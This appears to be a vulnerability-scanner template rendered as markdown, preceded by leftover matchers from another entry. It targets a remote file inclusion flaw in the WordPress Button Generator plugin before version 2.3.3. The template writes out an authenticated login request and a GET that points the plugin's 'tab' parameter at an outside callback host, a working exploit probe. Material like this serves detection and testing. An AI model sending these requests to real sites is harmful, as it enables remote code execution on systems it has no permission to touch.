 ### Matchers

**Type - word**
- part - body
- words
    1. 71abe5077dae2754c36d731cc1534d4d

**Type - status**
- status
    1. 200

---
# WordPress Button Generator \<2.3.3 - Remote File Inclusion
## Description
- WordPress Button Generator before 2.3.3 within the wow-company admin menu page allows arbitrary file inclusion with PHP extensions (as well as with data:// or http:// protocols), thus leading to cross-site request forgery and remote code execution.
- severity - high
- tags - wp-plugin,authenticated,wpscan,cve,cve2021,rfi,wp,wordpress
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wow-company&tab=http://{{interactsh-url}}/ HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - interactsh_protocol
- name - http
- words
    1. http

**Type - status**
- status
    1. 200

---